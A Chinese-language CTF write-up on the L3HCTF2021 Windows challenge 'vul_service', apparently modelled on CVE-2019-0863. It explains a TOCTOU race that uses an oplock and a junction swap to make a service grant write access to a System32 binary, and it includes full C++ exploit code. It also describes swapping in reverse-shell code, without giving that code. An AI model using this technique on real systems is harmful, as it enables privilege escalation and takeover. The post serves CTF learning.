 ```yaml
---
title: L3HCTF2021
date: 2021-11-16 17:59:18
draft: false
tags: ["pwn", "windows"]
categories: ["pwn"]
---
```


# L3GHCTF2021 PWN
躺了个第一，被带飞了。
<!-- more -->
看了一下只有这题值得记录👇

## vul_service
### 分析
题目来自CVE-2019-0863，注册了一个系统服务，功能是会不断遍历tmp目录下文件，读取其权限并写回去，注意到是根据文件名来判断并且没有加锁，考虑使用TOCTOU来攻击。

参考[这篇文章](https://lucabarile.github.io/Blog/toctou/index.html)了解TOCTOU，比较好理解的一种条件竞争，使用SetOplock在读取时锁住，并修改符号链接即可非预期修改别的文件的权限。通过这里主要学到了很多windows的知识，如权限控制的DACL，计划任务等。

### 思路
感谢FMYY和2st的帮助。

首先在tmp同级创建一个target目录，其中创建同名文件vul_service.exe，这里建议从system32中直接复制出来并删除继承关系，这样就有了Attacker的权限。

主要思路就是在tmp创建一个符号链接指target，用SetOplock锁住该同名文件。当计划任务访问时，删除符号链接并创建一个指向system32的，就可以把权限写给System32中的漏洞程序，然后替换为反弹shell的恶意代码即可。

### exp
```cpp
#include "stdafx.h"
#include<tchar.h>
#include<strsafe.h>
#include "TcpClient.h"
static FileOpLock* oplock = nullptr;
static bstr_t target_2;
#define BUFSIZE 4096
void HandleOplock()
{

	DebugPrintf("OpLock Triggered");
	
	STARTUPINFO si;
	PROCESS_INFORMATION pi;

	ZeroMemory(&si, sizeof(STARTUPINFO));
	ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

	si.cb = sizeof(STARTUPINFO);

	RemoveDirectoryW(L"C:\\Users\\Public\\tmp\\1");

	WCHAR CMDLine[BUFSIZE];
	ZeroMemory(CMDLine, BUFSIZE);
	StringCchCat(CMDLine, BUFSIZE, L"cmd /c mklink /J C:\\Users\\Public\\tmp\\1  C:\\Windows\\System32");

	CreateProcess(nullptr, CMDLine, nullptr, nullptr, FALSE, 0, nullptr, nullptr, &si, &pi);

	CloseHandle(pi.hThread);
	CloseHandle(pi.hProcess);

	Sleep(2000);
	
}

int _tmain(int argc, _TCHAR* argv[])
{
	wprintf_s(L"[+] hrnPA !\n");

	STARTUPINFO si;
	PROCESS_INFORMATION pi;

	ZeroMemory(&si, sizeof(STARTUPINFO));
	ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

	si.cb = sizeof(STARTUPINFO);

	RemoveDirectoryW(L"C:\\Users\\Public\\tmp\\1");

	WCHAR CMDLine[BUFSIZE];
	ZeroMemory(CMDLine, BUFSIZE);
	StringCchCat(CMDLine, BUFSIZE, L"cmd /c mklink /J C:\\Users\\Public\\tmp\\1  C:\\Users\\Public\\target");

	CreateProcess(nullptr, CMDLine, nullptr, nullptr, FALSE, 0, nullptr, nullptr, &si, &pi);

	CloseHandle(pi.hThread);
	CloseHandle(pi.hProcess);
	//Sleep(2000);
	int sign = 0;
	if (argc < 2)
	{
		printf("Usage: SetOpLock target [rwdx]\n");
		printf("Share Mode:\n");
		printf("r - FILE_SHARE_READ\n");
		printf("w - FILE_SHARE_WRITE\n");
		printf("d - FILE_SHARE_DELETE\n");
		printf("x - Exclusive lock\n");
		sign = 1;
	}
	else
	{
		LPCWSTR target = argv[1];
		LPCWSTR share_mode = argc > 2 ? argv[2] : L"";

		oplock = FileOpLock::CreateLock(target, share_mode, HandleOplock);
		if (oplock != nullptr)
		{
			oplock->WaitForLock(INFINITE);
			delete oplock;

		}
		else
		{
			printf("Error creating oplock\n");
			return 1;
		}
	}
	if (sign) {
		TcpClient tcpClient;
		int iRes = 0;

		wprintf_s(L"[+] Trigger launched.\n");
		wprintf_s(L"[*] TCP connecting...\n");


		wprintf_s(L"[*] Waiting for the VulService to be Execute...\n");


		Sleep(50000);

		iRes = tcpClient.connectTCP("127.0.0.1", "1337");

		if (iRes != 0)
		{
			wprintf_s(L"[*] Retrying ...\n");

			iRes = tcpClient.connectTCP("127.0.0.1", "1337");
		}

		if (iRes != 0)
		{
			wprintf_s(L"[*] Retrying ...\n");


			iRes = tcpClient.connectTCP("127.0.0.1", "1337");
		}

		if (iRes != 0)
		{
			wprintf_s(L"[-] Exploit failed.");
		}
		else
		{
			wprintf_s(L"[+] Exploit successfull.");
		}
	}
	return 0;
}

```

效果如下：
![win](./L3HCTF2021/1.png)
此时替换为反弹shell的恶意代码即可。